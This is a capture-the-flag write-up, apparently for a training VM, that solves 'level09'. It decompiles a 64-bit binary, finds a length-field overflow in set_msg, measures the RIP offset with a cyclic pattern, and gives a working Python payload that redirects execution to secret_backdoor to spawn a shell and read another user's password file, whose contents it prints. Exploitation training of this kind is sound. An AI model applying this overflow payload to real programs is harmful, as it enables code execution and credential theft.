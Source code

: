 # Level09

## Setup

We find a binary file at the root of the user **`level09`** named *`./level09`*.

```bash
scp -r -P 4242 level09@<vm_ip>:/home/users/level09/level09 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Source

	char v1[140]
	...
	set_username((__int64)v1);
	set_msg((__int64)v1);

	int set_username(__int64 a1) {
		char s[140];
		int i;
		...
  		fgets(s, 128, stdin);
  		for ( i = 0; i <= 40 && s[i]; ++i )
    	*(_BYTE *)(a1 + i + 140) = s[i];
  		return printf(">: Welcome, %s", (const char *)(a1 + 140));
	}

set_username writes 41 characters of s (our inputed username) in &v1[140] (it doesn't segfault somehow but it's not the subject)

	char *set_msg(__int64 a1) {
		char s[1024];
		...
		fgets(s, 1024, stdin);
		return strncpy((char *)a1, s, *(int *)(a1 + 180));
	}

set_msg writes with strncpy() a1[180] ***(converted as int because if a1[180] == 0xFF then strncpy writes 0xFF000000 characters) characters of s (our inputed msg) inside &a1[0], we can overflow and retrieve the address eip points to (Here it is not EIP anymore because it is a 64 bits program, it becomes RIP) with info frame, we have our offset that way


## bash
	> python -c "print 'A'*40 + '\xff\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A'" > /tmp/payload09

## gdb
	> r < <(cat /tmp/payload09)
	Segfault...
	> info frame
	...
	saved rip 0x4138674137674136
	...

0x4138674137674136 = offset at 200

It appears we also have a beautiful function called secret_backdoor() which calls gets() then system({our input}) \
Let's redirect RIP to secret_backdoor() \
	
	> p secret_backdoor
	... 0x55555555488c <secret_backdoor> (on rajoute 0000 pour ecrire 64 bits)

## Payload
	> python -c "print 'A'*40 + '\xff\n' + 'A'*200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" > /tmp/payload09
	> cat /tmp/payload09 - | ./level09
	> /bin/sh
	> cat /home/users/end/.pass
	j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE